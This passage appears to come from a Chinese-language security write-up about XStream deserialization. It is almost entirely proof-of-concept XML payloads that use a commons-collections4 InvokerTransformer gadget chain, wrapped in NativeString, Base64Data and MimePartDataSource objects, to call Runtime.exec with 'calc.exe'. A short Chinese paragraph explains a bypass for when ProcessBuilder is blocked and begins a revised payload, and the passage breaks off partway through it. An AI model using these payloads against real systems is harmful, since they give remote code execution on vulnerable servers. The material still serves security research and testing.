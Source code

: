 ```xml
                                                                <java-class>java.lang.Object</java-class>
                                                                <java-class>[Ljava.lang.Object;</java-class>
                                                            </iParamTypes>
                                                            <iArgs>
                                                                <null/>
                                                                <object-array/>
                                                            </iArgs>
                                                        </org.apache.commons.collections4.functors.InvokerTransformer>
                                                        <org.apache.commons.collections4.functors.InvokerTransformer>
                                                            <iMethodName>exec</iMethodName>
                                                            <iParamTypes>
                                                                <java-class>java.lang.String</java-class>
                                                            </iParamTypes>
                                                            <iArgs>
                                                                <string>calc.exe</string>
                                                            </iArgs>
                                                        </org.apache.commons.collections4.functors.InvokerTransformer>
                                                    </iTransformers>
                                                </transformer>
                                            </it>
                                        </msg>
                                    </part>
                                </dataHead>
                            </mimePart>
                        </part>
                    </dataSource>

                    <transferFlavors/>
                </dataHandler>
                <dataLen>0</dataLen>
            </value>
        </jdk.nashorn.internal.objects.NativeString>
        <string>test</string>
    </entry>
</map>
```

后面又仔细想了一下，循环反射是因为ProcessBuilder与Runtime没有实现反序列化接口，导致无法反序列化，XStream没有这个限制，在ProcessBuilder被禁止的情况下，可以实例化Runtime，直接RCE。改了改之后POC变为如下

```xml
<map>
    <entry>
        <jdk.nashorn.internal.objects.NativeString>
            <flags>0</flags>
            <value class='com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data'>
                <dataHandler>
                    <dataSource class='com.sun.xml.internal.messaging.saaj.packaging.mime.internet.MimePartDataSource'>
                        <part>
                            <mimePart>
                                <dataHead>
                                    <part>
                                        <msg>
                                            <it class="org.apache.commons.collections4.iterators.ObjectGraphIterator">
                                                <stack class="java.util.ArrayDeque" serialization="custom">
```